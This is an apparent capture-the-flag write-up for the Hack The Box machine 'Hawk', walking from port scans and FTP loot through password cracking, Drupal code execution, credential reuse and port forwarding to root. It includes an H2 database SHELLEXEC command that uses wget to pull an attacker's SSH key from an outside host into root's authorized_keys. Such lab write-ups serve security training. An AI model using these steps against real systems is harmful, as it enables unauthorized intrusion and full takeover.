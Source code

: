 # Hawk Hack The Box Tips

# ${{\color{purple}Initial Recon}}\ $

``nmap -sC -sV -oA hawk -T4 10.10.10.102``

![image](https://user-images.githubusercontent.com/123066149/230886175-1c075cce-aa30-4eba-a72e-a49466a2dc7f.png)

``nmap -p- -sV -oA fullhawk -T4 10.10.10.102``

![image](https://user-images.githubusercontent.com/123066149/230886275-c19e7b0f-4fff-4941-b29f-9376edc03cdd.png)

# ${{\color{purple}Initial Foothold}}\ $

``ftp 10.10.10.102 21``

``dir -a``

``get <nom du fichier>``

![image](https://user-images.githubusercontent.com/123066149/230886704-2c55705f-ec28-4551-9d49-459be1057e3c.png)

``mv .drupal.txt.enc encrypted``

``file encrypted``

![image](https://user-images.githubusercontent.com/123066149/230886940-6b64d2ea-3e79-4f79-a011-c0c6159c9ea7.png)

``wc -c encrypted``

![image](https://user-images.githubusercontent.com/123066149/230887039-d7b5a775-37de-4b91-a12b-fffb0862640f.png)

### It's all the cipher available in openssl :

``openssl --help``

![image](https://user-images.githubusercontent.com/123066149/230887119-6e31e1fd-a610-4ab3-bb7f-8278c7ff5163.png)

``bruteforce-salted-openssl -t 10 -f /usr/share/wordlists/rockyou.txt -c aes-256-cbc -d sha256 encrypted``

![image](https://user-images.githubusercontent.com/123066149/230891237-c3fc28d2-a9f7-4077-8401-e7cb26b69c2c.png)

``openssl enc -aes-256-cbc -d -in encrypted -out decrypted -k friends``

![image](https://user-images.githubusercontent.com/123066149/230891407-a9d9ffcf-6119-49c1-baef-1956536bc8fb.png)

``cat decrypted``

![image](https://user-images.githubusercontent.com/123066149/230891465-0b517b98-6acf-47b9-b8f2-85f84c60b7aa.png)

# ${{\color{purple}Exploitation}}\ $

### Godd ressource for drupal hacking :

https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/drupal

### I used thi creds on the drupal portal :

![image](https://user-images.githubusercontent.com/123066149/230891583-beac5b4c-3203-42ef-b232-b2deed1d890e.png)

### Active php modules :

![image](https://user-images.githubusercontent.com/123066149/230891707-bfb6790c-5163-4e54-88ca-40e4f42166fb.png)

![image](https://user-images.githubusercontent.com/123066149/230891898-c92282fb-f6e9-4fbb-8df5-535f6658c01e.png)

![image](https://user-images.githubusercontent.com/123066149/230892120-a8b817e8-4f08-4b91-92d2-cf0b123de873.png)

![image](https://user-images.githubusercontent.com/123066149/230892506-3658a936-878f-4cde-b4cd-97714c81a932.png)

![image](https://user-images.githubusercontent.com/123066149/230892536-2bcfd7cc-7e3d-442f-9a9c-c459acf7616c.png)

# ${{\color{purple}Privilege Escalation}}\ $

### I found a usable database password for a user in ssh

![image](https://user-images.githubusercontent.com/123066149/230892915-e78bcace-86fb-447e-9cdd-5f3af511fedf.png)

### We have a python shell :

![image](https://user-images.githubusercontent.com/123066149/230893148-5b5b3e46-0256-4b7d-a0ce-4a1e31bf8530.png)

### Spawn a shell :

``import pty``

``pty.spawn("/bin/bash")``

![image](https://user-images.githubusercontent.com/123066149/230893408-b80e3599-7ae9-4925-a663-58e4d1b85f1c.png)

### Was we can see this program have the root privilège :

![image](https://user-images.githubusercontent.com/123066149/230893535-91aeaf9e-6efa-4de8-90b8-99b9a961666b.png)
![image](https://user-images.githubusercontent.com/123066149/230893574-7197f782-c096-4c5b-b784-92a73bf6072c.png)

``netstat -antp``

![image](https://user-images.githubusercontent.com/123066149/230893739-d42f3312-9667-4a1c-be8d-3da498599adf.png)

### We can redirect this port in the local machine with ssh:

``ssh -L 127.0.0.1:4444:127.0.0.1:8082 daniel@10.10.10.102``

![image](https://user-images.githubusercontent.com/123066149/230893850-f5a6fe34-b5b6-4fe4-b3c3-a0a85038c7d1.png)

![image](https://user-images.githubusercontent.com/123066149/230893909-54756edb-3d7c-4892-80a3-805d545e3373.png)

### I connect to the database with the creds I found before :

![image](https://user-images.githubusercontent.com/123066149/230894137-51516348-5fe4-4308-b157-e95fb7c51444.png)

``searchsploit H2 database``

![image](https://user-images.githubusercontent.com/123066149/230894231-840b1713-2e28-4e28-b836-14b1c0b1f14a.png)

### Finding a blog post in the exploit :

![image](https://user-images.githubusercontent.com/123066149/230894288-487080f4-7e89-48f1-9208-0e11f68e6b62.png)

https://mthbernardes.github.io/rce/2018/03/14/abusing-h2-database-alias.html

![image](https://user-images.githubusercontent.com/123066149/230894349-a7c32be7-c966-42e0-b372-74f15ebac9e3.png)

![image](https://user-images.githubusercontent.com/123066149/230894599-6b06c4a7-398e-494e-8816-7d926a83c6ea.png)

### I actually had a surprisingly difficult time going from this code execution to a shell. I tried the standard reverse shells, but none seemed to work

``ssh-keygen``

![image](https://user-images.githubusercontent.com/123066149/230894932-5e96a022-d70c-4783-ad4b-60c96d940828.png)

``cat id_rsa.pub > authorized_keys``

``cat authorized_keys ``

![image](https://user-images.githubusercontent.com/123066149/230895081-f34a9267-78c6-419c-ba05-a5e2697d7a60.png)

``CALL SHELLEXEC('wget -O /root/.ssh/authorized_keys http://10.10.14.10:80/id_rsa.pub')``

![image](https://user-images.githubusercontent.com/123066149/230895262-2f8acb6c-de52-4770-a41c-d6b1d32034bb.png)

``python2.7 -m SimpleHTTPServer 80``

![image](https://user-images.githubusercontent.com/123066149/230895149-5327d4c4-9889-4b5f-a56e-56d9057956fd.png)

``chmod 600 id_rsa``

``ssh -i ssh/id_rsa root@10.10.10.102``

![image](https://user-images.githubusercontent.com/123066149/230895439-2bdf8fc0-c890-494c-b292-6788a882808e.png)

### Enter passphrase created during sshkeygen :

![image](https://user-images.githubusercontent.com/123066149/230895586-09fb2e0b-7f46-4eb0-9888-9e45f6bd8f08.png)


# ${{\color{purple}Points of Improvement}}\ $

* Don't forget to do ``dir -a`` in the ftp to see the hidden files
* Do not forget the replay of database creds for ssh/ftp/...
* Adding a ssh key is a good method if nothing else works 
